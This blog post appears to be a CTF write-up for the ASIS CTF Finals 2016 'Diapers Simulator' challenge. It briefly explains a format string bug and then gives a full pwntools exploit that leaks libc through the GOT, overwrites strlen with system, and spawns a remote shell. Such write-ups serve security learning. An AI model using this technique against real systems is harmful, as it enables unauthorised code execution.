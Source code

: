 ```yaml
---
layout: post
alias: "/blog/2016/09/12/asis-ctf-finals-2016-diapers-simulator/"
date: "2016-09-12T02:26:40+09:00"
title: "ASIS CTF Finals 2016: Diapers Simulator"
tags: [ "ctf", "writeup", "asis-ctf", "pwn", "format-string-attack" ]
---
```


Only doing.

## solution

If the value of wetness is negative, you can overwrite the sponsor's message and do format string attack.

The struct is like below:

``` c
struct diaper_t {
    char brand[12];
    int wetness;
    char sponsor_message[];
};
```

`1) Change Diapers` can make the `wetness` negative.
`3. Bunny Rabbit` fills `brand` with $12$ bytes without null byte.
`0) Change Brand` use `strlen` to know the length and this allows us to modify the `sponsor_message`.
`2) Leave` has a format string bug with `sponsor_message`.
Now, you can do format string attack.

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='diapers.asis-ctf.ir')
parser.add_argument('port', nargs='?', default=1343, type=int)
args = parser.parse_args()
context.log_level = 'debug'

elf = ELF('./diapers')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

p = remote(args.host, args.port)
p.recvuntil('> ')
p.sendline('3')
for i in range(257):
    p.recvuntil('> ')
    p.sendline('1')
buflen = 108
offset = 15
def fsa(s, header=''):
    payload = ''
    payload += header
    assert len(payload) <= offset
    payload += ' ' * (offset - len(payload))
    payload += s
    assert len(payload) <= buflen
    payload += ' ' * (buflen - len(payload))
    p.recvuntil('> ')
    p.sendline('0')
    p.send(payload)
    p.recvuntil('> ')
    p.sendline('2')
    x = 'And now a message from our sponsors:\n'
    y = "Sorry, you're not allowed to leave your baby unless it's dry!\n"
    p.recvuntil(x)
    return p.recvuntil(y)[ : - len(y) ]

assert fsa('%18$p').startswith('%#x' % u32('%18$'))

# leak libc
libc_start_main  = u32(fsa('%20$s   ' + p32(elf.got['__libc_start_main']))[: 4])
setvbuf          = u32(fsa('%20$s   ' + p32(elf.got['setvbuf']))[: 4])
log.info('__libc_start_main: %#x', libc_start_main)
log.info('setvbuf: %#x', setvbuf)
libc_base = setvbuf - libc.symbols['setvbuf']
log.info('libc base: %#x', libc_base)

# got overwrite
write = { elf.got['strlen']: libc_base + libc.symbols['system'] }
payload = fmtstr.fmtstr_payload(18, write)
log.info('payload:\n' + fiddling.hexdump(payload))
fsa(payload, header='/bin/sh\0')

# run
p.recvuntil('> ')
p.sendline('0')

time.sleep(1)
p.sendline('id')
p.interactive()
```

